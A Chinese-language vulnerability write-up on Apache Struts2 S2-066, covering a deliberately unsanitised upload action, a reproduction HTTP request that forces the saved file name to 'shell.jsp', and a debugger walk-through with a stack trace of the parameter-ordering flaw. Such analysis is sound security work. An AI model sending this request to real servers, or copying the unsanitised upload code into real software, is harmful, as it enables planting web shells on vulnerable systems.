Struts2 S2-066 漏洞浅析

- - -

# Struts2 S2-066 漏洞浅析

## 环境搭建

可以使用官方的 showcase [https://archive.apache.org/dist/struts/6.3.0/](https://archive.apache.org/dist/struts/6.3.0/)

也可以 IDEA maven struts2 模版直接生成

uploadAction

```plain
package com.struts2;

import com.opensymphony.xwork2.ActionSupport;
import org.apache.commons.io.FileUtils;
import org.apache.struts2.ServletActionContext;

import java.io.*;

public class UploadAction extends ActionSupport {

    private static final long serialVersionUID = 1L;


    private File upload;

    // 文件类型，为name属性值 + ContentType
    private String uploadContentType;

    // 文件名称，为name属性值 + FileName
    private String uploadFileName;

    public File getUpload() {
        return upload;
    }

    public void setUpload(File upload) {
        this.upload = upload;
    }

    public String getUploadContentType() {
        return uploadContentType;
    }

    public void setUploadContentType(String uploadContentType) {
        this.uploadContentType = uploadContentType;
    }

    public String getUploadFileName() {
        return uploadFileName;
    }

    public void setUploadFileName(String uploadFileName) {
        this.uploadFileName = uploadFileName;
    }

    public String doUpload() {
       // String path = ServletActionContext.getServletContext().getRealPath("/")+"upload";
        String path = "/tmp";
        String realPath = path + File.separator +uploadFileName;
        try {
            FileUtils.copyFile(upload, new File(realPath));
        } catch (Exception e) {
            e.printStackTrace();
        }
        return SUCCESS;
    }

}
```

请求包

```plain
POST /S2_066_demo_war_exploded/upload.action HTTP/1.1
Host: localhost:9098
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: JSESSIONID=67F2A7C42488ED1B38910F7938FBAE8B
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryfCZX2JnRcn31usNI
Content-Length: 187

------WebKitFormBoundaryfCZX2JnRcn31usNI
Content-Disposition: form-data; name="upload"; filename="aaa.tx1t"
Content-Type: text/plain

xxx
------WebKitFormBoundaryfCZX2JnRcn31usNI--
```

## 漏洞复现

使用如下包即可将上传文件名覆盖为 shell.jsp

```plain
POST /S2_066_demo_war_exploded/upload.action?uploadFileName=shell.jsp HTTP/1.1
Host: localhost:9098
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: JSESSIONID=67F2A7C42488ED1B38910F7938FBAE8B
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryfCZX2JnRcn31usNI
Content-Length: 187

------WebKitFormBoundaryfCZX2JnRcn31usNI
Content-Disposition: form-data; name="Upload"; filename="aaa.tx1t"
Content-Type: text/plain

xxx
------WebKitFormBoundaryfCZX2JnRcn31usNI--
```

## 调试分析

相关的 commit 在[https://github.com/apache/struts/commit/162e29fee9136f4bfd9b2376da2cbf590f9ea163](https://github.com/apache/struts/commit/162e29fee9136f4bfd9b2376da2cbf590f9ea163)

可以看到针对`core/src/main/java/org/apache/struts2/dispatcher/HttpParameters.java`做的针对大小写的修改，测试类一目了然

[](https://xzfile.aliyuncs.com/media/upload/picture/20240224220312-72772a6a-d31d-1.png)

随便下断点进去看堆栈，找对 request 的处理上传及使用`HttpParameters`相关的 interceptor

其中在struts2-core-6.3.0.jar!/org/apache/struts2/dispatcher/Dispatcher.class#serviceAction中有如下的一个调用

[](https://xzfile.aliyuncs.com/media/upload/picture/20240224220329-7cd6513e-d31d-1.png)

这里将 request 中的参数全部取出来放入 extraContext.parametars 中，如下图

[](https://xzfile.aliyuncs.com/media/upload/picture/20240224220343-85138e2a-d31d-1.png)

之后是一些预处理，找对应 Action 信息之类并实例化之类的，还未将 filename 参数赋值给 action 的成员变量

继续翻堆栈可以看到 org/apache/struts2/interceptor/FileUploadInterceptor.class

[](https://xzfile.aliyuncs.com/media/upload/picture/20240224220358-8e3c370e-d31d-1.png)

首先获取表单中的 filename 也就是正常的文件名

[](https://xzfile.aliyuncs.com/media/upload/picture/20240224220414-977e8c5e-d31d-1.png)

而后面多出了一个`String fileNameName = inputName + "FileName";（UploadFileName）`变量，最终也被添加到了 action 的 param 中

[](https://xzfile.aliyuncs.com/media/upload/picture/20240224220430-a0de1e4a-d31d-1.png)

之后跟到 com/opensymphony/xwork2/interceptor/ParametersInterceptor.class

[](https://xzfile.aliyuncs.com/media/upload/picture/20240224220445-a9c70f76-d31d-1.png)

后续大部分是对请求参数的处理，将请求中的参数添加到 ActionContext 中

[](https://xzfile.aliyuncs.com/media/upload/picture/20240224220458-b1ca42ec-d31d-1.png)

而这里 newParamas 是 TreeMap 类型

[](https://xzfile.aliyuncs.com/media/upload/picture/20240224220514-bb031dfc-d31d-1.png)

后续会再进入一次 ParametersInterceptor.class 做处理，而这次会将请求参数 (如 Content-Type、UploadFileName) 赋值给 UploadAction 类

[](https://xzfile.aliyuncs.com/media/upload/picture/20240224220530-c4fe1e7e-d31d-1.png)

跟进`this.setParameters(action, stack, parameters);`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240224220544-cd5edef0-d31d-1.png)

之后就是给 action 的成员变量赋值的过程

[](https://xzfile.aliyuncs.com/media/upload/picture/20240224220559-d62e69ba-d31d-1.png)

而这里因为 TreeMap 大小写的原因，小写的在后，大写在前，导致先给 action 的成员变量 uploadFileName 赋值的是正常的文件名再赋值恶意的文件名造成了漏洞

[](https://xzfile.aliyuncs.com/media/upload/picture/20240224220614-dec7fd52-d31d-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240224220625-e596adb8-d31d-1.png)

完整堆栈

```plain
doUpload:49, UploadAction (com.struts2)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:498, Method (java.lang.reflect)
invokeMethodInsideSandbox:1245, OgnlRuntime (ognl)
invokeMethod:1230, OgnlRuntime (ognl)
callAppropriateMethod:1958, OgnlRuntime (ognl)
callMethod:68, ObjectMethodAccessor (ognl)
callMethodWithDebugInfo:98, XWorkMethodAccessor (com.opensymphony.xwork2.ognl.accessor)
callMethod:90, XWorkMethodAccessor (com.opensymphony.xwork2.ognl.accessor)
callMethod:2034, OgnlRuntime (ognl)
getValueBody:97, ASTMethod (ognl)
evaluateGetValueBody:212, SimpleNode (ognl)
getValue:258, SimpleNode (ognl)
getValue:586, Ognl (ognl)
getValue:550, Ognl (ognl)
lambda$callMethod$4:599, OgnlUtil (com.opensymphony.xwork2.ognl)
execute:-1, 994887133 (com.opensymphony.xwork2.ognl.OgnlUtil$$Lambda$118)
compileAndExecuteMethod:642, OgnlUtil (com.opensymphony.xwork2.ognl)
callMethod:599, OgnlUtil (com.opensymphony.xwork2.ognl)
invokeAction:434, DefaultActionInvocation (com.opensymphony.xwork2)
invokeActionOnly:307, DefaultActionInvocation (com.opensymphony.xwork2)
invoke:259, DefaultActionInvocation (com.opensymphony.xwork2)
intercept:256, DebuggingInterceptor (org.apache.struts2.interceptor.debugging)
executeConditional:299, DefaultActionInvocation (com.opensymphony.xwork2) [24]
invoke:253, DefaultActionInvocation (com.opensymphony.xwork2)
doIntercept:179, DefaultWorkflowInterceptor (com.opensymphony.xwork2.interceptor)
intercept:99, MethodFilterInterceptor (com.opensymphony.xwork2.interceptor)
executeConditional:299, DefaultActionInvocation (com.opensymphony.xwork2) [23]
invoke:253, DefaultActionInvocation (com.opensymphony.xwork2)
doIntercept:263, ValidationInterceptor (com.opensymphony.xwork2.validator)
doIntercept:49, AnnotationValidationInterceptor (org.apache.struts2.interceptor.validation)
intercept:99, MethodFilterInterceptor (com.opensymphony.xwork2.interceptor)
executeConditional:299, DefaultActionInvocation (com.opensymphony.xwork2) [22]
invoke:253, DefaultActionInvocation (com.opensymphony.xwork2)
intercept:78, FetchMetadataInterceptor (org.apache.struts2.interceptor)
executeConditional:299, DefaultActionInvocation (com.opensymphony.xwork2) [21]
